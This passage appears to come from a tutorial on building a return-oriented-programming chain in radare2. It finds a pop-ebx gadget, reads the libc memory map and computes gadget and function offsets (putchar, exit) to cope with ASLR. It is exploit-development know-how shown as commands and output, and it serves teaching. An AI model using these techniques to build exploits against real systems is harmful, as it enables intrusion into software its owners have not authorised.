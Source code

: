 ```shell
[0x56555586]> "/R/ pop ebx;ret;"

First one to appear from the bottom:

0xf7febdff                 5b  pop ebx
0xf7febe00                 c3  ret


```

The address we are looking for, is 0xf7febdff. This is real address: generally it could be better to get offset from the start of library. If we look at the address, this is probably in libc (it actually is not, bad choice!). We could find suitable offset by just analyzing library alone, instead of analyzing it as dynamically linked to our program.

When system has ASLR enabled, we might need to create addresses dynamically, and therefore offsets are better choice, in case we know the version of libc in targeted system.

In this case, we can calculate the offset by ourself. First we need to find the start of libc in memory:

```shell
[0x56555586]> dm

0xf7dd7000 # 0xf7fac000 - usr   1.8M s r-x /lib/i386-linux-gnu/libc-2.27.so /lib/i386-linux-gnu/libc-2.27.so
0xf7fac000 # 0xf7fad000 - usr     4K s --- /lib/i386-linux-gnu/libc-2.27.so /lib/i386-linux-gnu/libc-2.27.so
0xf7fad000 # 0xf7faf000 - usr     8K s r-- /lib/i386-linux-gnu/libc-2.27.so /lib/i386-linux-gnu/libc-2.27.so
0xf7faf000 # 0xf7fb0000 - usr     4K s rw- /lib/i386-linux-gnu/libc-2.27.so 
```

This is the section, which shows libc parts in memory. We are interested about first address, which is the start. If we look now the selected memory address, it is outside of scope libc, it's from some other library. We should have scrolled more to top, to get better alternative inside from libc, so the offset we are calculating is general for libc, not for this precise system.

Let's calculate offset for this address anyway, it works at this situation:

```shell
[0x56555586]> ?X 0xf7febdff -  0xf7dd7000
214dff
[0x56555586]> 
```
Offset address would be 0x00214dff for our pop/ret gadget.

When we need the gadget address, we should just add offset to libc base address.

Next we need offset address of putchar and exit functions.

Putchar : 

```shell
[0x56555586]> dmi libc putchar
053 0x00069a30 0xf7e40a30 GLOBAL   FUNC   75 putchar_unlocked
527 0x00069920 0xf7e40920 GLOBAL   FUNC  269 putchar

[0x56555586]> 
```
Exit can be found same way. This time it is showing offset of function.
